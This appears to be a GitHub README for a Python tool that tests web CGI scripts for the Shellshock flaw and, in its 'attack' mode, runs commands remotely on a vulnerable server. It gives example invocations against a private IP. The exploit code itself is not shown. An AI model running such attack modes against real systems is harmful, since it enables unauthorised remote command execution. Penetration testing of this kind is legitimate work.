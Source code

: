 # effectiveShellShocker
This is a Python script that tests for http shellshocker vulnerability. If it exists, it allows you to run commands remotely.

Simple Usage:
```bash
python3 effectiveShellShocker.py -h
```
![Help](Images/help.png)

```bash
python3 effectiveShellShocker.py test http://172.16.80.22 /cgi-bin /calendar.cgi
```
![Test](Images/test.png)

```bash
python3 effectiveShellShocker.py attack http://172.16.80.22 /cgi-bin /calendar.cgi
```
![Attack](Images/attack.png)

Thank you
